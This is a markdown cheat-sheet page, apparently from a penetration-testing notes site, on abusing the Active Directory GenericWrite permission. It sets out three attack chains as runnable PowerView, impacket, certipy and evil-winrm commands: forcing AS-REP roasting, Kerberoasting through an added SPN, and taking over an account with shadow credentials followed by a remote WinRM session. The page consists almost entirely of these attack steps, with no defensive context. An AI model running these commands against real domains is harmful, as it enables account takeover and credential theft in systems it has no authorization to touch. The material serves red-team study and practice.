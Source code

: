 ```yaml
---
title: "GenericWrite"
date: 2024-7-13
tags: ["GenericWrite", "active driectory", "ad", "Windows"]
---
```


### Abuse #1 : Add UF_DONT_REQUIRE_PREAUTH bit to target user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Check target user

```console
Get-DomainUser <TARGET_USER> | ConvertFrom-UACValue
```

#### 3. Add UF_DONT_REQUIRE_PREAUTH bit

```console
Set-DomainObject -Identity <TARGET_USER> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### 4. AS-REP Roasting

```console
# In local linux machine
impacket-GetNPUsers '<DOMAIN>/<USER>' -no-pass -dc-ip <DC>
```

{{< /tabcontent >}}

---

### Abuse #2 : Kerberoasting by adding spn

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add a SPN

```console
# eg. MSSQLSvc/example.com:1433
setspn -a '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' '<DOMAIN>\<TARGET_USER>'
```

```console
# Check
Get-DomainUser '<TARGET_USER>' | Select serviceprincipalname
```

#### 4. Get SPN

```console
Get-DomainSPNTicket -SPN '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' -Credential $Cred
```

{{< /tabcontent >}}

---

### Abuse #3: Add shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Request a ticket

```console
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

#### 2. Add shadow credentials

```console
export KRB5CCNAME=<USER>.ccache
```

```console
# Pre-check (Optional)
certipy-ad find -username '<USER>@<DOMAIN>' -k -target <TARGET_DOMAIN>
```

```console
# Add shadow credentials
certipy-ad shadow auto -username '<USER>@<DOMAIN'> -account <TARGET_USER> -k -target <TARGET_DOMAIN>
```

#### 3. Remote

```console
# Edit '/etc/krb5.conf' (All uppercase)
[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

<br>

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

{{< /tabcontent >}}
